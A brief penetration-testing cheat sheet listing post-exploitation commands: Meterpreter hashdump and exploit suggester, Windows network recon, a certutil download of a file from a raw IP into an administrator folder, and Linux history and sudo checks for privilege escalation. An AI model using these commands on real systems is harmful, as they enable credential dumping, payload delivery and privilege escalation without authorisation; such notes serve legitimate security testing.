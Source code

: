 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```

## Cmd
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
